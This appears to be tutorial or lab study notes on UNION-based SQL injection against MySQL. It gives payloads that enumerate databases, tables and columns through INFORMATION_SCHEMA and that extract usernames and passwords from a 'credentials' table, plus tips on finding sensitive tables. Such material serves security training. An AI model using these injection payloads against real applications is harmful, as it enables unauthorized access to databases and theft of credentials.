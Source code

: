## Database Structure Enumeration

### Using INFORMATION_SCHEMA Database
- INFORMATION_SCHEMA is a special database containing metadata about all databases and tables
- To reference tables in different databases, use the dot operator: `database_name.table_name`

### Step 1: Enumerate Databases
- Query the SCHEMATA table to list all databases
```sql
cn' UNION SELECT 1,SCHEMA_NAME,3,4 FROM INFORMATION_SCHEMA.SCHEMATA-- -
```
- Find the current database:
```sql
cn' UNION SELECT 1,database(),2,3-- -
```
- Default MySQL databases (usually ignore these):
  - mysql
  - information_schema
  - performance_schema
  - sys (sometimes)

### Step 2: Enumerate Tables
- Query the TABLES table to find tables in specific databases
```sql
cn' UNION SELECT 1,TABLE_NAME,TABLE_SCHEMA,4 FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dev'-- -
```
- Use the WHERE clause to filter results for a specific database
- This provides table names (TABLE_NAME) and their database names (TABLE_SCHEMA)

### Step 3: Enumerate Columns
- Query the COLUMNS table to find column names in specific tables
```sql
cn' UNION SELECT 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='credentials'-- -
```
- This provides column names (COLUMN_NAME) for the specified table

### Step 4: Extract Data
- Once you have database, table, and column names, you can extract the actual data
```sql
cn' UNION SELECT 1,username,password,4 FROM dev.credentials-- -
```
- Remember to use the dot operator to specify the database (e.g., `dev.credentials`)
- Replace the numbers in your UNION SELECT statement with the column names you want to extract

## Important Notes
- Always target specific databases/tables using WHERE clauses to avoid excessive data
- Look for potentially sensitive tables like "credentials," "users," or "admin"
- When working across databases, remember to use the dot notation (database.table)
- Some tables may contain sensitive information like password hashes or API keys
